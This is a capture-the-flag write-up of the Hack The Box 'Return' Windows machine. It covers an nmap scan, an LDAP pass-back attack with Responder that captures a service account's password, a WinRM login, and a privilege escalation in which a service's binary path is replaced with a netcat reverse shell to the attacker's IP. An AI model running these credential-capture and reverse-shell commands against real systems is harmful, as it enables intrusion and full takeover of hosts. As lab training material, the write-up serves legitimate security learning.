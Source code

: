 # Box: Return
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.88.241 -p- -v -T4```

```
Nmap scan report for 10.129.88.241
Host is up (0.42s latency).
Not shown: 65458 closed tcp ports (reset), 51 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-14 12:22:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
50865/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/14%OT=53%CT=1%CU=43018%PV=Y%DS=2%DC=T%G=Y%TM=652A84
OS:2C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=101%TI=I%CI=I%II=I%SS=S%TS
OS:=U)SEQ(SP=105%GCD=1%ISR=101%TI=I%CI=RI%II=I%SS=S%TS=U)SEQ(SP=105%GCD=1%I
OS:SR=101%TI=RD%CI=I%II=I%TS=U)SEQ(SP=105%GCD=1%ISR=101%TI=RD%CI=RI%II=I%TS
OS:=U)SEQ(SP=105%GCD=2%ISR=101%TI=RD%CI=I%II=I%TS=U)OPS(O1=M53ANW8NNS%O2=M5
OS:3ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)WIN(W1=FFFF%W
OS:2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M53ANW
OS:8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y
OS:%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR
OS:%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF
OS:=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80
OS:%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T12:24:21
|_  start_date: N/A
|_clock-skew: 18m33s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   436.16 ms 10.10.16.1
2   231.29 ms 10.129.88.241

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 14 13:06:04 2023 -- 1 IP address (1 host up) scanned in 2869.49 seconds
```
From our scan we have quite a number of ports opened. We\ll start our enumeration today from port 80


# Enumeration(Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/64f03f1e-6136-4c05-afb4-b1a015eae14a)

We get this HTB Printer Admin Panel

Click on "Settings", you'll see this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7d4a38d9-2c47-4c16-9eee-ab20c042f988)

We can perform something called ```LDAP Pass-back``` attack against this printer. This is a common attack against network devices, such as printers. Lets exploit this hehe


# Exploitation

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/909ef243-ec00-408a-96d2-848ec437d8e5)

In this attack we can modify this server address to our IP, then we'll get the printer to connect to us instead, which would disclose the credentials. 

To do this, we will set responder to run on the interface connected to the vpn.

command:```sudo responder -I tun0```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ea4cc4c9-8fe2-4098-945d-b9b1d8e5e028)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/34081969-6a59-43c8-9208-7f7b67bde4a4)


Now, lets go back to the webpage and try to update the settings

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ef37a2ca-dfcd-43bf-a09e-e431cfe2e9a3)

Checking our listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/125c9f3b-51e7-474c-bbda-d9d024992009)

We were able to successfully capture the creds hehe😎.

Now lets connect to this using ```evil-winrm```.

command:```evil-winrm -u svc-printer -i 10.129.88.241 -p '1edFg43012!!'```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/83d6542b-65ff-4919-bfe8-18eb19a732ae)

soft!!😂. Lets go ahead to escalate our privileges



# Privilege Escalation

Checking the list of users on the computer

command:```net user svc-printer```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e74cc2e7-6e59-4dd8-ae56-0f32ba3801e8)

Being a member of server operator group is not a vulnerability, but the member of this group has special privileges to make changes in the domain which could lead an attacker to escalate to system privilege.

You can check out this  [blog](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/), it's well explained here.

Lets list services running on this server using the ```services``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/42230f3b-36fa-4587-98d8-5e91abff7390)

We can see list of services are there. Then we noted the service name “VMTools” and service binary path for lateral usage.

Lets upload ```nc.exe``` to the target's machine

command:```upload nc.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3b7cbfdb-a71d-4723-a8dc-90de7c27cd56)

cool cool,

When we start any service then it will execute the binary from its binary path so if we replace the service binary with netcat or reverse shell binary then it will give us a reverse shell as a system user because the service is starting as a system on the compromised host

Now,

commands
```
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.16.30 1337"
sc.exe stop VMTools
sc.exe start VMTools
```
Ensure you set up your netcat listener before starting the service again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9f0e1e00-edff-47b9-a491-242c38177eb3)

Nice stuff hehe, we spawned a shell as ```nt authority\system```.

That will be all for today
<br><br>
[Back To Home](../../index.md)


























































